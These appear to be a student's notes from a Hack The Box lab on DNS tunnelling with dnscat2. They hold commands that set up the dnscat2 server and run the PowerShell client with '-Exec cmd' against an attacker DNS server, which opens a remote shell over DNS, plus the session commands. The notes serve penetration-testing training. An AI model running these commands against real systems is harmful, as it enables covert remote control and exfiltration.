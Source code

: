 ```shell-session
AhmaDb0x@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

#### Starting the dnscat2 server
```shell-session
AhmaDb0x@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
---
```shell-session
./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local
```
---
#### Cloning dnscat2-powershell to the Attack Host
```shell-session
AhmaDb0x@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

#### Importing dnscat2.ps1
```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.15.81 -Domain ahmad.pwn -PreSharedSecret 217200aa3a46f5626ea49a6ea9e5a414 -Exec cmd 
```



----
```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```
---
```shell-session
dnscat2> window -i 1
```





